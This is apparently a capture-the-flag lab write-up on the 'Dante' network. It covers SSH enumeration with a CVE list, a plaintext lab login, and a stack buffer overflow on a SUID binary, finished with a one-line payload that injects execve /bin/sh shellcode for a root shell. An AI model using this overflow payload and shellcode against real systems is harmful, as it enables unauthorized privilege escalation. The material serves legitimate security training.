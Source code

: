 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings
### Credentials
`FoundCREDs`
- `DANTE{0verfl0wing_l1k3_craz33!}`
## External
### Enumeration
```shell
[+] 172.16.2.101:22       - SSH server version: SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.1 ( service.version=8.2p1 openssh.comment=Ubuntu-4ubuntu0.1 service.vendor=OpenBSD service.family=OpenSSH service.product=OpenSSH service.cpe23=cpe:/a:openbsd:openssh:8.2p1 os.vendor=Ubuntu os.family=Linux os.product=Linux os.version=20.04 os.cpe23=cpe:/o:canonical:ubuntu_linux:20.04 service.protocol=ssh fingerprint_db=ssh.banner )
```
![](https://i.imgur.com/xrsZ6Jp.png)
```shell
| vulners:
|   cpe:/a:openbsd:openssh:8.2p1:
|     	CVE-2020-15778	7.8	https://vulners.com/cve/CVE-2020-15778
|     	CVE-2020-12062	7.5	https://vulners.com/cve/CVE-2020-12062
|     	CVE-2021-28041	7.1	https://vulners.com/cve/CVE-2021-28041
|     	CVE-2021-41617	7.0	https://vulners.com/cve/CVE-2021-41617
|     	PRION:CVE-2020-15778	6.8	https://vulners.com/prion/PRION:CVE-2020-15778
|     	C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3	6.8	https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3	*EXPLOIT*
|     	10213DBE-F683-58BB-B6D3-353173626207	6.8	https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207	*EXPLOIT*
|     	CVE-2020-14145	5.9	https://vulners.com/cve/CVE-2020-14145
|     	CVE-2016-20012	5.3	https://vulners.com/cve/CVE-2016-20012
|     	PRION:CVE-2020-12062	5.0	https://vulners.com/prion/PRION:CVE-2020-12062
|     	PRION:CVE-2021-28041	4.6	https://vulners.com/prion/PRION:CVE-2021-28041
|     	PRION:CVE-2021-41617	4.4	https://vulners.com/prion/PRION:CVE-2021-41617
|     	PRION:CVE-2020-14145	4.3	https://vulners.com/prion/PRION:CVE-2020-14145
|     	PRION:CVE-2016-20012	4.3	https://vulners.com/prion/PRION:CVE-2016-20012
|     	CVE-2021-36368	3.7	https://vulners.com/cve/CVE-2021-36368
|_    	PRION:CVE-2021-36368	2.6	https://vulners.com/prion/PRION:CVE-2021-36368
```
![](https://i.imgur.com/GlX1Io4.png)
### Gaining Access
![](https://i.imgur.com/MYwque9.png)
- ` julian : manchesterunited `
## Internal
### Enumeration
```shell
test     pts/0        Mon Jun 29 06:25:56 2020 - Tue Jun 30 02:30:56 2020  (20:05)     172.16.88.131
julian   pts/0        Mon Jun 29 04:33:41 2020 - Mon Jun 29 06:02:26 2020  (01:28)     172.16.88.131
```
![](https://i.imgur.com/3Zk4Rp0.png)
![](https://i.imgur.com/7XaQJHk.png)
- `/usr/sbin/readfile`
 ![](https://i.imgur.com/2lPAkG0.png)
![](https://i.imgur.com/WWt8U7u.png)
![](https://i.imgur.com/jj0QGsp.png)
`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`
### Gaining Access

![](https://i.imgur.com/ftoEhE3.png)
- Meaning we got `88` as offset so if i send 88 A's and 1 Byte of B data, it will write the BBBBBBBB on the $rsp. 
![](https://i.imgur.com/sgT0GEb.png)
- Because of the Canonical Address on `x64` binary i used this payload and boom, now we can write on the `$rip` this means i can call any function i want.
```shell
~ > 10.10.14.8 $ python2 -c 'print "A"*88 + "B"*6'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBB
```
![](https://i.imgur.com/UUgDDak.png)
>[!tip] JOHN HAMMOND Has Good Video on this https://www.youtube.com/watch?v=eg0gULifHFI&ab_channel=JohnHammond

```shell
/usr/sbin/readfile $(python2 -c 'print "A"*88+"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"')
```
![](https://i.imgur.com/kEcWEOw.png)
![](https://i.imgur.com/RaHeAD6.png)
### Maintaining Access
![](https://i.imgur.com/jAQzXyc.png)
- we got new host
	- [[Dante - NIX06]]

# Random Notes